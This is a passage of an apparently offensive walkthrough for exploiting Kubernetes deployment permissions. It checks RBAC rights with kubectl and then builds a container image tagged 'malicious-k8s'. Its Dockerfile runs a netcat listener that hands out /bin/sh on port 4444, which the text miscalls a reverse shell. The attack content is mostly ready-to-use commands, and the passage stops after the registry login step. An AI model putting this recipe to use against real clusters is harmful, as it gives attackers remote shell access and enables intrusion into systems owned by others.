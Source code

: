 This section details how to validate the vulnerability and exploit it by deploying a malicious container image. We'll use a simple reverse shell example.

**Phase 1: Validation (Identifying Deployable Services)**

1.  **Check RBAC Permissions:** First, verify if you have the necessary permissions to create deployments.
    ```bash
    kubectl auth can-i create deployments
    ```
    *Explanation:* This command checks if the current user or service account has the `create` permission for `deployments`.  It's a quick way to assess if deployment privileges are present.
    *Expected Output:* `yes` indicates you can create deployments, `no` indicates you cannot.
    *Contribution:* Validates the initial requirement for deploying a malicious container.

2.  **Check RBAC Permissions for pods:** Check to see if you can deploy a pod directly.
    ```bash
    kubectl auth can-i create pods
    ```
    *Explanation:* This command checks if the current user or service account has the `create` permission for `pods`.  Direct pod creation might bypass deployment restrictions.
    *Expected Output:* `yes` indicates you can create pods, `no` indicates you cannot.
    *Contribution:* Validates the initial requirement for deploying a malicious container.

**Phase 2: Building and Pushing the Malicious Image**

1.  **Create a Dockerfile for the Malicious Image:**
    ```dockerfile
    FROM alpine:latest
    RUN apk update && apk add netcat-openbsd
    CMD nc -l -p 4444 -e /bin/sh
    ```
    *Explanation:* This Dockerfile creates a simple Alpine Linux-based image with `netcat-openbsd` installed. When the container starts, it listens on port 4444 and executes `/bin/sh` whenever a connection is established (creating a reverse shell).
    *Expected Output:* This creates a functional Dockerfile.

2.  **Build the Malicious Image:** Replace `<your-dockerhub-username>` with your Docker Hub username.
    ```bash
    docker build -t <your-dockerhub-username>/malicious-k8s:latest .
    ```
    *Explanation:* This command builds the Docker image using the Dockerfile in the current directory and tags it with `<your-dockerhub-username>/malicious-k8s:latest`. Make sure to replace `<your-dockerhub-username>` with a valid Docker Hub username where you have push access. Alternatively, push to a private registry you control and adjust the image pull policy later.
    *Expected Output:* Successful image build with no errors.

3.  **Login to Docker Hub (or your private registry):**
    ```bash
    docker login
    ```
    *Explanation:* This command authenticates you with Docker Hub (or your configured registry).  You will be prompted for your username and password.
    *Expected Output:* `Login Succeeded`.

